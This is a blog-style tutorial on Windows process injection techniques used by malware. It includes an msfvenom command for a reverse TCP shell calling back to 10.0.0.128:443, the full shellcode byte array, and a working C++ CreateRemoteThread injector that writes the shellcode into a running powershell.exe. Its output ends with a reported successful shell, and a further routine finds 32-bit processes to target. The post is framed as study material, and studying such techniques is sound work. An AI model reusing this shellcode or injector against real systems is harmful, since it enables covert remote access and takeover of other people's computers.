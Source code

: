```yaml
---
layout: post
title:  "Process Injection Techniques"
date:   2023-09-12 00:00:00 +0000
categories: malware
---
```


In this entry, we will dive into Windows process injection techniques demonstrated by malware. Malware authors deploy process injection to run malicious code under another process.

### 1. Payload & Compiling
Many malware authors opt for 32-bit malware, because of it's backwards compatibility with 64-bit systems. 

+ 32-bit processes can run on 64-bit systems.
+ 64-bit processes cannot run on 32-bit systems.

Since most malwares are 32-bit. All code below will be compiled in `x86 (32-bit)`, with the command `g++.exe <input.cpp> -o <output.exe> --std=c++20 -static`.

The issue with writing 32-bit malware, is that it faces difficulties working with the memory of 64-bit processes. We will understand this better later.

A simple reverse TCP shell will be used. The shellcode was generated with the following command - `msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.128 LPORT=443 -f c`. I will exclude the payload code in below examples due to its obstruction.

{% highlight cpp %}

unsigned char payload[] = 
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c"
"\x77\x26\x07\xff\xd5\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
"\x29\x80\x6b\x00\xff\xd5\x50\x50\x50\x50\x40\x50\x40\x50\x68"
"\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x05\x68\x0a\x00\x00\x80\x68"
"\x02\x00\x01\xbb\x89\xe6\x6a\x10\x56\x57\x68\x99\xa5\x74\x61"
"\xff\xd5\x85\xc0\x74\x0c\xff\x4e\x08\x75\xec\x68\xf0\xb5\xa2"
"\x56\xff\xd5\x68\x63\x6d\x64\x00\x89\xe3\x57\x57\x57\x31\xf6"
"\x6a\x12\x59\x56\xe2\xfd\x66\xc7\x44\x24\x3c\x01\x01\x8d\x44"
"\x24\x10\xc6\x00\x44\x54\x50\x56\x56\x56\x46\x56\x4e\x56\x56"
"\x53\x56\x68\x79\xcc\x3f\x86\xff\xd5\x89\xe0\x4e\x56\x46\xff"
"\x30\x68\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6"
"\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb"
"\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5";

{% endhighlight %}

<br>
### 2. CreateRemoteThread Injection
CreateRemoteThread is the most basic form of process injection. In essence, it performs the following calls,
+ `OpenProcess()` to get a handle to the victim process.
+ `VirtualAllocEx()` to allocate a new memory page in the victim process.
+ `WriteProcessMemory()` to inject the shellcode into the new memory page.
+ `CreateRemoteThread()` to start the shellcode, in a new thread, in the new memory page.


<br>
#### 2.1. Where to Inject?
The shellcode cannot be injected into any process of choice. Take this example.

{% highlight cpp %}

#include <windows.h>
#include <tlhelp32.h>
#include <iostream>

int main() {
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    HANDLE process_handle;
    PVOID remote_buffer;
    HANDLE remote_thread;

    PROCESSENTRY32 processEntry;
    processEntry.dwSize = sizeof(PROCESSENTRY32);

    while (Process32Next(snapshot, &processEntry)) {
          
        if (strcmp(processEntry.szExeFile, "powershell.exe") == 0) {
            printf("Found powershell.exe\n");

            process_handle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, (int) processEntry.th32ProcessID);
            std::cout << "HANDLE: " << process_handle << std::endl;

            remote_buffer = VirtualAllocEx(process_handle, NULL, sizeof(payload), (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
            std::cout << "Remote Buffer: " << remote_buffer << std::endl;

            bool written = WriteProcessMemory(process_handle, remote_buffer, payload, sizeof(payload), NULL);
            std::cout << "WriteProcessMemory: " << written << std::endl;

            remote_thread = CreateRemoteThread(process_handle, NULL, 0, (LPTHREAD_START_ROUTINE) remote_buffer, NULL, 0, NULL);
            std::cout << "Remote Thread: " << remote_thread << std::endl;

            CloseHandle(process_handle);
            break;
        }
    };

    CloseHandle(snapshot);
    return 0;
}

{% endhighlight %}

<br>
Let's run the code and dissect the output. We notice that `CreateRemoteThread` fails and returns a NULL. If we inspect `GetLastError`, we get `0x5 (ERROR_ACCESS_DENIED)`. But why?

{% highlight powershell %}

C:\Users\root\Desktop
λ injector.exe
Found powershell.exe
Calc HANDLE: 0x104
Remote Buffer: 0xfe0000
WriteProcessMemory: 1
Remote Thread: 0

{% endhighlight %}

<br>
#### 2.2. 32-bit or 64-bit?
The above example fails, because `CreateRemoteThread` cannot be called from a 32-bit process, to start a thread in a 64-bit process. As stated earlier, this is one of the limitations of 32-bit malware.

Now, let's launch a 32-bit powershell.exe process, and run our malware. 

![powershell32](/assets/post_assets/process-injection-techniques/powershell32.png)

<br>
Successfully obtained a handle on the remote thread.

{% highlight powershell%}
C:\Users\root\Desktop
λ injector.exe
Found powershell.exe
HANDLE: 0x118
Remote Buffer: 0x6ac0000
WriteProcessMemory: 1
Remote Thread: 0x12c
{% endhighlight %}

<br>
Popped a shell. Success!

![shell1](/assets/post_assets/process-injection-techniques/shell1.png)


<br>
#### 2.3. Identifying 32-bit processes
As we learnt above, 32-bit processes must find other 32-bit processes to inject into. 

The below code enumerates all processes in the system with `CreateToolhelp32Snapshot`, then identifies those that are 32-bit.

{% highlight cpp %}
#include <windows.h>
#include <tlhelp32.h>
#include <iostream>

int main(int argc, char** argv) {
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    std::string filepath = argv[0];
    int index = filepath.find_last_of("\\/");
    std::string filename = filepath.substr(index + 1);

    PROCESSENTRY32 processEntry;
    processEntry.dwSize = sizeof(PROCESSENTRY32);

    while (Process32Next(snapshot, &processEntry)) {
        HANDLE hProcess = OpenProcess(PROCESS_QUERY_INFORMATION, FALSE, processEntry.th32ProcessID);
        
        BOOL isWow64 = FALSE;
        IsWow64Process(hProcess, &isWow64);
        if (isWow64 && (strcmp(processEntry.szExeFile, filename.c_str()) != 0)) {
            std::cout << "Found 32-bit process: " << processEntry.szExeFile << std::endl;
            // malicious activity 
            break;
        }
    };
}
{% endhighlight %}

<br>
Here's the output. The script successfully identified the Powershell (x86) instance running.

{% highlight powershell %}
PS C:\Users\root\Desktop\check32bit> .\check32bit.exe
Found 32-bit process: powershell.exe
{% endhighlight %}